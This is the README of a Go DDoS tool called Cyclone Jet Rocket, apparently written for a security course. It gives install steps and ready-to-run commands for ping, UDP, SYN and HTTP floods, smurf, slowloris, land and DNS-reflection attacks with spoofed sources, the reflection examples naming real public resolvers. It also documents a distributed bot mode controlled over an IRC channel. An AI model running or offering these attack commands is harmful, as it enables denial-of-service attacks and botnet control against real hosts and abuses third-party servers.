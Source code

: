 # Cyclone Jet Rocket

Cyclone Jet Rocket is a DDoS tool for System Security Technology course.

This DDoS tool provides more than 8 kinds of attack methods, each in one module, with different parameters each module. The abstraction of Layers is inspired from [gopacket](https://github.com/google/gopacket), but reimplemented by myself.

## Install

```
go get github.com/crazyboycjr/cyclone-jet-rocket
go build -o $GOPATH/bin/cjr github.com/crazyboycjr/cyclone-jet-rocket
```

## Usage

stand-alone mode
```
cjr --help
cjr --list-module
cjr --module ping-flood help
cjr -m ping-flood --spoof 192.168.1.0/24 --destination 192.168.1.3 --rate 100/ms -c 100000
cjr -m udp-flood -s 192.168.0.0/16 -d 192.168.1.3 -p 80 -p 22 -p 8000:8000 -r nolimit
cjr -m smurf --broadcast 192.168.1.255 -d 192.168.1.3 -c 1000
cjr -m syn-flood -s 192.168.2.0/24 -d 192.168.1.3 -p 80 -r 100/s
cjr -m slowloris --url http://www.example.com --request GET -c 100 -r 1/s --timeout 10
cjr -m slowloris -u http://www.example.com -X POST -c 100 -r 10/s --t 20
cjr -m rdns --target 192.168.1.3 --dns 202.120.224.6:53 --dns 61.129.42.6:53 --dns 114.114.114.114:53 -c 1000 -r 10/s
cjr -m rdns --target 192.168.1.3 -f dns_servers.txt -c 1000 -r 10/s
cjr -m land -d 192.168.1.3 -p 80 -r 10/s
cjr -m http-flood -u http://www.example.com -X POST -c 100 -r 10/s
```

distributed mode
```
cjr --dist help
cjr -D --wait # only slave host use this command to wait for commands
cjr -D --list-bots
cjr -D -m syn-flood -s 10.0.0.0/8 -d 10.123.123.123 -p 80 -r 10/s
cjr -D --stop
cjr -D --uninstall # this command will terminate the process on slave host and remove the executable file
```

For convenience, we can also login the IRC channel to give the order. Something like below
```
irssi
/connect Freenode
/join cjr-random
!list
!module rdns --target 192.168.1.3 --dns 202.120.224.6:53 -c 1000 -r 10/s
!stop
```

## Dependencies

- Go version 1.8 or above
- [go-flags](https://github.com/jessevdk/go-flags)
- [go-ircevent](https://github.com/thoj/go-ircevent)
